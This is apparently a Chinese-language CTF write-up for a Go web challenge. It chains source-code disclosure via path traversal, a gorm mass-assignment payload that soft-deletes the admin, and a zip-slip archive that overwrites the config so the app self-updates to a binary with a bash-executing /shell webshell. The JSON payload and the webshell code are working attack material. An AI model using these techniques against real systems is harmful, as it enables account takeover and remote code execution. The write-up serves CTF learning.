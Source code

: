 # WP

## 目录穿越读取源代码

go embed * 的错误使用，导致源代码被打包进程序。

再结合错误的静态文件托管，导致`/../`路径可以列目录获取源代码

## Gorm 软删除注入

代码审计，发现

1. 管理员账户是数据库中的第一个用户，而这个用户目前无法登陆

2. 对于`/register`接口，`controller`使用了`c.ShouldBindJSON()`, `db`层对其返的值直接进行一个`db.Save()`到数据库的操作，可以注入`gorm.Model`相关字段

因此可以构造注入`deletedat`字段，使得原来的`admin`被软删除

```json
{"id":1,"deletedat":"2011-01-01T11:11:11Z","createdat":"2011-01-01T11:11:11Z"}
```

注意`createdat`字段是`datetime`类型，如果这个字段留空，会update`0000-00-00 00:00:00`到 MySQL，而这个值不在datetime范围内，所以需要手动指定

## 解压缩覆盖配置文件，自更新RCE

代码审计，发现

1. 解压缩功能未检查目录穿越，可以通过目录穿越任意文件写
2. 自更新的URL支持通过配置文件热更新
3. `unzipped`目录下的文件会被托管

因此可以构造一个压缩包

```
..
|- ..
  |- config.yaml
|- exp
```

### config.yaml

```yaml
server:
  noAdminLogin: true
database:
  user: root
  password: root
  host: 127.0.0.1
  port: 3306
update:
  enabled: true
  url: http://127.0.0.1:8080/unzipped/exp
  interval: 1
```

### exp 部分源码

```go
r.POST("/shell", func(c *gin.Context) {
		output, err := exec.Command("/bin/bash", "-c", c.PostForm("cmd")).CombinedOutput()
		if err != nil {
			c.String(500, err.Error())
		}
		c.String(200, string(output))
	})
```

在 dump 下来的源码里添加一个 webshell，再构建为 update

`config.yaml`将覆盖原有的 config 并在一分钟左右触发自更新，更新为我们上传的`update`文件

成功RCE，flag在根目录。
